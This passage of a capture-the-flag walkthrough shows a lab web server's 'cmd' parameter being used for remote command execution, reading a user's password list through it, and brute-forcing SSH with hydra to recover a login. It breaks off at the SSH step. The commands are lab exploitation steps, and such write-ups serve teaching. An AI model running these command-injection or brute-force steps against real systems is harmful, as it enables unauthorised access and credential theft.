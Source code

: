 ```
GET me a 'cmd' and I'll run it for you Future-Jack.
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It seems that website is vulerable to RCE (Remote Code Execution)

So I tried `?cmd=ls /home` and found a list which is a dictionary for `jack` user

I viewed it with `?cmd=cat /home/jacks_password_list`

```
GET me a 'cmd' and I'll run it for you Future-Jack.
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
ow5APF>6r,y4krSo
```

<br />

Now is the time to run hydra using that list and to find a ssh password for `jack`

I got it after some time:

```
hydra -l jack -P dict.txt ssh://10.10.165.245:80 

[80][ssh] host: 10.10.165.245   login: jack   password: ITMJpGGIqg1jn?>@

```

<br />

#### 8. SSH to machine
